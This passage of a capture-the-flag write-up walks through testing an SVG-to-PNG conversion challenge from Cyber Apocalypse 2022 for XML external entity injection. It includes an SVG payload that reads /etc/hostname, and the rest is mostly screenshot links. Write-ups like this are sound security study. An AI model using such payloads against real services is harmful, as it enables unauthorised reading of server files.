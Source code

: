Response:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517163144.png)

The functionality is giving the server an SVG and the server giving a response of PNG.  There might be something that processing the SVG to convert to PNG.
SVG is also interesting as we can include an XXE payload inside the SVG.

Testing basic payload of XXE over SVG.

Payload:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

> Use CyberChef to escape double quotes of the payload.

Request:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517164923.png)

Upon checking the response it only gives me this:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517165020.png)
